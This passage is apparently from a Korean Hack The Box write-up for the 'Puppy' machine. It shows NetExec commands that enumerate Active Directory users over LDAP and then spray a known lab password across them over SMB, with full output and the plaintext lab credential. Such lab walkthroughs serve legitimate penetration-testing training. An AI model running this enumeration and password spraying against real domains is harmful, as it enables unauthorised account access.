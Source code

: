 ### LDAP ENUMERATION

- 이어서 LDAP 열거를 통해 도메인 컨트롤러 내에 존재하는 유저 정보를 추출했다.  

```zsh
➜  / nxc ldap 10.129.28.145 -u $HTB_USER -p $HTB_PASS --users-export userlist
LDAP        10.129.28.145   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.129.28.145   389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.129.28.145   389    DC               [*] Enumerated 9 domain users: PUPPY.HTB
LDAP        10.129.28.145   389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-                                           LDAP        10.129.28.145   389    DC               Administrator                 2025-02-20 04:33:28 0        Built-in account for administering the computer/domain  LDAP        10.129.28.145   389    DC               Guest                         <never>             0        Built-in account for guest access to the computer/domainLDAP        10.129.28.145   389    DC               krbtgt                        2025-02-19 20:46:15 0        Key Distribution Center Service Account                 LDAP        10.129.28.145   389    DC               levi.james                    2025-02-19 21:10:56 5                                                                LDAP        10.129.28.145   389    DC               ant.edwards                   2025-02-19 21:13:14 0                                                                LDAP        10.129.28.145   389    DC               adam.silver                   2025-10-01 01:34:29 0                                                                LDAP        10.129.28.145   389    DC               jamie.williams                2025-02-19 21:17:26 5                                                                LDAP        10.129.28.145   389    DC               steph.cooper                  2025-02-19 21:21:00 5                                                                LDAP        10.129.28.145   389    DC               steph.cooper_adm              2025-03-09 00:50:40 5                                                                LDAP        10.129.28.145   389    DC               [*] Writing 9 local users to userlist
```

<br>

#### Credential Spraying Attack

- `levi.james` 계정의 패스워드를 이용하여 크레덴셜 스프레잉 공격을 진행하였으나 유효한 계정은 발견되지 않았다.  

```zsh
➜  / nxc smb 10.129.28.145 -u ~/htb/Puppy/recon/userlist -p $HTB_PASS --continue-on-success
SMB         10.129.28.145   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.28.145   445    DC               [-] PUPPY.HTB\Administrator:KingofAkron2025! STATUS_LOGON_FAILURE
SMB         10.129.28.145   445    DC               [-] PUPPY.HTB\Guest:KingofAkron2025! STATUS_LOGON_FAILURE
SMB         10.129.28.145   445    DC               [-] PUPPY.HTB\krbtgt:KingofAkron2025! STATUS_LOGON_FAILURE
SMB         10.129.28.145   445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.129.28.145   445    DC               [-] PUPPY.HTB\ant.edwards:KingofAkron2025! STATUS_LOGON_FAILURE
SMB         10.129.28.145   445    DC               [-] PUPPY.HTB\adam.silver:KingofAkron2025! STATUS_LOGON_FAILURE
SMB         10.129.28.145   445    DC               [-] PUPPY.HTB\jamie.williams:KingofAkron2025! STATUS_LOGON_FAILURE
SMB         10.129.28.145   445    DC               [-] PUPPY.HTB\steph.cooper:KingofAkron2025! STATUS_LOGON_FAILURE
SMB         10.129.28.145   445    DC               [-] PUPPY.HTB\steph.cooper_adm:KingofAkron2025! STATUS_LOGON_FAILURE
```

---
